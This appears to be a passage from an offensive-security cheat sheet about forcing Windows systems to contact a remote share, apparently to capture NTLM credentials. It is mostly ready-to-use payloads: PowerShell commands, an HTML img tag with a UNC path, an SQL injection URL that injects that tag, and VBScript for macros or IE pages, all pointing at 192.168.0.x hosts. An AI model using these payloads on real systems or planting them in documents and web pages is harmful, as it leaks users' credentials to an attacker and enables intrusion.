 ![](<../../.gitbook/assets/image (307) (5).png>)

## Powershell

There are probably many scriptlets in Powershell that would resolve a network path.

```
Invoke-Item \\192.168.0.1\aa
Get-Content \\192.168.0.1\aa
Start-Process \\192.168.0.1\aa
```

## IE

IE will resolve UNC paths. For example

```html
<img src="\\\\192.168.0.1\\aa">
```

You can inject under XSS or in scenarios you find SQL injection. For example.

```
http://host.tld/?id=-1' union select 1,'<img src="\\\\192.168.0.1\\aa">';%00
```

## VBScript

You can save this as .vbs or can be used inside a macro that is applied to Word or Excel files.

```bash
Set fso = CreateObject("Scripting.FileSystemObject")
Set file = fso.OpenTextFile("//192.168.0.100/aa", 1)
```

You can apply in web pages but this works only with IE.

```markup
<html>
<script type="text/Vbscript">
<!--
Set fso = CreateObject("Scripting.FileSystemObject")
Set file = fso.OpenTextFile("//192.168.0.100/aa", 1)
//-->
</script>
</html>
```
